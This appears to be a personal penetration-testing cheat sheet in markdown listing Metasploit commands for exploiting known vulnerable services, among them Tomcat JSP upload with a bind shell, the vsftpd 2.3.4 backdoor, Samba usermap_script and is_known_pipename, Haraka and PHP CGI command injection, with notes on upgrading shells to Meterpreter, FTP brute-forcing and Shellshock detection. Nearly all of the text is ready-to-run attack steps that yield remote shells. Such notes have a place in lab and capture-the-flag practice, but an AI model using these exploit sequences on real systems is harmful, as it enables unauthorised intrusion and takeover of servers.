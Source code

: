 ```bash
search type:exploit tomcat_jsp
use tomcat_jsp_upload
set payload java/jsp_shell_bind_tcp
set SHELL cmd
# might require you to run it multiple times.
# you would need to use msfvenom to upgrade the shell to meterpeter
```
#### vsFTPd v2.3.4 RCE
>FTP server (vsftpd v2.3.4 RCE)

```bash
search vsftpd
use vsftpd_234_backdoor

# can use shell_to_meterpreter to upgrade
```
#### SAMBA v3.5.0 RCE
```bash
use is_known_pipename
check
run
# use shell to meterpreter to ugrade

# SAMBA version 3.0.20 < 3.0.25
use usermap_script
```
#### SMTP - Haraka 2.8.9 cmd injection
 >SMTP (Haraka <v2.8.9 cmd injection)
```bash
search type:exploit name:haraka
set email_to $CORRECT_MAIL
# set SRVPORT 9098
# set payload linux/x64/meterpreter_reverse_http
```
#### PHPv5 cmd injection
 >PHP version <5.3.12/5.1.2 CGI argument Command injection
```bash 
seaarchsploit php cgi
18836.py

use exploit/multi/http/php_cgi_arg_injection
```
#### IIS+FTP
>Microsoft IIS - FTP
```bash
sometimes they both run together as proprietory services, and when foudn running together it means they are linked/intertwined
- check for anon logins on the FTP
- bruteforce with wordlist for creds 
- try to put a shell
```
### Linux
#### SHELLSHOCK 
> Bash <v4\
```bash
ATTACK CHAIN
- locate script/input vector to communicate with bash
- Find CGI scripts on apache server.


DETECTION 
--script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"
```